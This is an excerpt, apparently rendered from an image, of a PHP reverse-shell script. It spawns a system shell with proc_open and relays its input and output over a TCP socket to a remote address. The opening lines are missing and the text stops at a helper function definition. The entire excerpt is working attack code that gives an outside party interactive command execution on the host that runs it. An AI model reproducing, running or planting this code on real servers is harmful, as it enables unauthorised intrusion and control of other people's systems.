 ```php
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
```